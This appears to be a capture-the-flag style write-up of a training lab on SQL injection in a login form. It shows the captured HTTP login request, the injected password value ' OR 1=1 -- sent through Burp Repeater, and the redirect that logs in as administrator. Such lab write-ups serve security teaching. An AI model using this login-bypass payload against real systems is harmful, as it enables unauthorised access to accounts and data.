


# Lab: SQL injection vulnerability allowing login bypass
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

# Solution



```http
POST /login HTTP/2
Host: 0acb006504451e82800b4428004e0095.web-security-academy.net
Cookie: session=pd1km0kpZqjF2VgaL4xYUrNz4EJ1u1cc
Content-Length: 73
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: https://0acb006504451e82800b4428004e0095.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acb006504451e82800b4428004e0095.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=ObyiBy911daD8b6Emt99Fx6ymdlXHxm0&username=administrator&password=asd
```

Capturing the request and sending it to the Repeater in Burpsuite to edit the password parameter.


```http
csrf=ObyiBy911daD8b6Emt99Fx6ymdlXHxm0&username=administrator&password='+OR+1%3d1+--
```

Adding: ```' OR 1=1 --```


```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=5djH9OzY3BaHacdaVLiOBYBJBg32wSO9; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

